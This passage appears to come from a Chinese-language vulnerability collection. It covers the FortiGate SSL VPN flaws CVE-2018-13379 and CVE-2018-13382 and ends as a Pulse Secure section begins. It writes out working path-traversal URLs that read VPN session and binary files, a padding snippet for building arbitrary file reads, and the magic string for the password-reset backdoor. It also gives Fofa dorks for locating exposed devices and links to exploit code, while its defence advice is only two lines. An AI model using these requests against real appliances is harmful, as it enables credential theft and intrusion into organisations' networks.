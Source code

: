 `"Fortigate" && port=10443`

**5\. 漏洞分析**

Orange: Attacking SSL VPN – Part 2: Breaking the Fortigate SSL VPN  
[https://blog.orange.tw/2019/08/attacking-ssl-vpn-part-2-breaking-the-fortigate-ssl-vpn.html?m=1](https://blog.orange.tw/2019/08/attacking-ssl-vpn-part-2-breaking-the-fortigate-ssl-vpn.html?m=1)

**6\. 漏洞利用**

密码读取

milo2012/CVE-2018-13379: CVE-2018-13379  
[https://github.com/milo2012/CVE-2018-13379](https://github.com/milo2012/CVE-2018-13379)

任意密码重置, 这肯定是个后门

milo2012/CVE-2018-13382: CVE-2018-13382  
[https://github.com/milo2012/CVE-2018-13382](https://github.com/milo2012/CVE-2018-13382)

**7\. 利用技巧**

1\. 文件读取的路径构造

`https://xxxxxx:10443/remote/fgt_lang?lang=/../../../..//////////dev/cmdb/sslvpn_websession`

如下 padding 可以构造出来任意文件读取, 可以读取其他文件, 注意这个系统好像没有 / etc/passwd

`print("/../../../../"+(raw_input().rjust(35, '/')))`

2\. 寻找魔术数字

虽然当时橘子哥没有公开魔术数字, 但是当时随手分析了一下下面这个启动文件, 搜索一下 magic 就找到 4tinet2095866,

`https://xxxxxxxx:10443/remote/fgt_lang?lang=/../../../../////////////////////////bin/sslvpnd`

后来发现这个字符串在 js 里面也有, 直接从前台分析也可以获得

`https://xxxxx:10443/sslvpn/js/login.js?q=5f9a6877fd1f78da768239aae6e739c2`

**8\. 防护方法**

1\. 及时更新补丁

2\. 升级到最新版

Pulse Secure SSL VPN 远程代码执行漏洞
-----------------------------

**1\. 漏洞简介**

Pulse Secure SSL VPN 在全球用户量巨大, 去年橘子哥发现了很多漏洞

**2\. 影响组件**

Pulse Secure SSL VPN

**3\. 漏洞指纹**

`Pulse Secure SSL VPN`

**4\. Fofa Dork**

`app="PulseSecure-SSL-VPN"`
